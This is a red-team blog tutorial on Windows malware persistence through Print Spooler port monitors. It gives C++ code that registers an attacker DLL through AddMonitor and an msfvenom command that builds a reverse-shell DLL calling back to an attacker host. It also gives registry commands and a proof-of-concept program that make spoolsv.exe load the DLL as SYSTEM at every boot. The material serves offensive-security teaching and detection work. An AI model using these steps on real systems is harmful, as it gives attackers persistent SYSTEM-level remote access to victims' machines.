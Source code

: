 ```yaml
---
title:  "Malware development: persistence - part 8. Port monitors. Simple C++ example."
date:   2022-06-19 10:00:00 +0600
header:
  teaser: "/assets/images/59/2022-06-20_19-35.png"
categories:
  - tutorial
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![pers](/assets/images/59/2022-06-20_19-35.png){:class="img-responsive"}    

This post is the result of self-researching one of the interesting malware persistence trick: Port monitors.    

### port monitors

Port Monitor refers to the Windows Print Spooler Service or `spoolv.exe` in this post. When adding a printer port monitor, a user (or an attacker) is able to add an arbitrary dll that serves as the *"monitor"*.    

There are essentially two ways to add a port monitor, also known as your malicious DLL: through the Registry for persistence or a custom Windows application (`AddMonitor` function) for immediate dll execution.    

### adding monitor

Using the Win32 API, specifically the `AddMonitor` function of the Print Spooler API:

```cpp
BOOL AddMonitor(
  LPTSTR pName,
  DWORD  Level,
  LPBYTE pMonitors
);
```

it is possible to add an arbitrary monitor DLL immediately while the system is running. Note that you will need local administrator privileges to add the monitor.    

For example, source code of our monitor:    

```cpp
/*
monitor.cpp
windows persistence via port monitors
register the monitor port
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/06/19/malware-pers-8.html
*/
#include "windows.h"
#pragma comment(lib, "winspool")

int main(int argc, char* argv[]) {
  MONITOR_INFO_2 mi;
  mi.pName = "Monitor";
  mi.pEnvironment = "Windows x64";
  // mi.pDLLName = "evil.dll";
  mi.pDLLName = "evil2.dll";
  AddMonitor(NULL, 2, (LPBYTE)&mi);
  return 0;
}

```

Compile it:

```bash
x86_64-w64-mingw32-g++ -O2 monitor.cpp -o monitor.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lwinspool
```

![pers](/assets/images/59/2022-06-20_08-17.png){:class="img-responsive"}    

Also, create our "evil" DLL:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4445 -f dll > evil2.dll
```

![pers](/assets/images/59/2022-06-20_19-24.png){:class="img-responsive"}    

So, compiling the code will produce an executable (`monitor.exe` in my case) that will register the malicious DLL (`evil2.dll`) on the system.    

### demo for add "monitor"

Copy files and run:

```powershell
copy Z:\2022-06-19-malware-pers-8\evil2.dll .\
copy Z:\2022-06-19-malware-pers-8\monitor.exe .\
.\monitor.exe
```

![pers](/assets/images/59/2022-06-20_19-28.png){:class="img-responsive"}    

### registry persistence

A list of sub-key port monitors can be found within the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors` node. Each key should have a `REG_SZ` entry containing a `Drivers` DLL. At system startup, each of these DLLs will be executed as `SYSTEM`.    

First of all, before malicious actions, check sub keys:

```powershell
reg query "HKLM\System\CurrentControlSet\Control\Print\Monitors" /s
```

![pers](/assets/images/59/2022-06-20_15-48.png){:class="img-responsive"}    

Then, add sub key `Meow` and `Driver` value:    

```powershell
reg add "HKLM\System\CurrentControlSet\Control\Print\Monitors\Meow" /v "Driver" /d "evil2.dll" /t REG_SZ
reg query "HKLM\System\CurrentControlSet\Control\Print\Monitors" /s
```

![pers](/assets/images/59/2022-06-20_18-17.png){:class="img-responsive"}    

As you can see, everything is completed correctly. Then restart victim's machine:    

![pers](/assets/images/59/2022-06-20_18-17_1.png){:class="img-responsive"}    

![pers](/assets/images/59/2022-06-20_18-17_2.png){:class="img-responsive"}    

And after a few minutes:    

![pers](/assets/images/59/2022-06-20_19-30.png){:class="img-responsive"}    

![pers](/assets/images/59/2022-06-20_19-31.png){:class="img-responsive"}    

Let's go to check `Network` tab in Process Hacker 2:    

![pers](/assets/images/59/2022-06-20_19-34.png){:class="img-responsive"}    

We can see that the `evil2.dll` is being accessed by the `spoolsv.exe (PID: 4616)`, which eventually spawns a `rundll32` with our payload, that initiates a connection back to the attacker:     

![pers](/assets/images/59/2022-06-20_19-33.png){:class="img-responsive"}    

For cleanup, after end of experiments, run:

```powershell
Remove-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Print\Monitors\Meow" -Name "Driver"
```

![pers](/assets/images/59/2022-06-20_21-22.png){:class="img-responsive"}    

My "dirty PoC" for registry persistence:    

```cpp
/*
pers.cpp
windows persistence via port monitors
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/06/19/malware-pers-8.html
*/
#include <windows.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = "\\System\\CurrentControlSet\\Control\\Print\\Monitors\\Meow";

  // evil DLL
  const char* evilDll = "evil.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)sk, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {

    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"Driver", 0, REG_SZ, (unsigned char*)evilDll, strlen(evilDll));
    RegCloseKey(hkey);
  } else {
    printf("failed to create new registry subkey :(");
    return -1;
  }
    return 0;
}
```

During Defcon 22, Brady Bloxham [demonstrated](https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf) this persistence technique. This method requires Administrator privileges and the DLL must be saved to disk.   
The question remains whether any APTs uses this technique in the wild.

[Windows Print Spooler Service](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc)    
[Defcon-22: Brady Bloxham - Getting Windows to Play with itself](https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf)    
[MITRE ATT&CK - Port Monitors persistence technique](https://attack.mitre.org/techniques/T1547/010/)    
[source code on Github](https://github.com/cocomelonc/2022-06-19-malware-pers-8)   

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
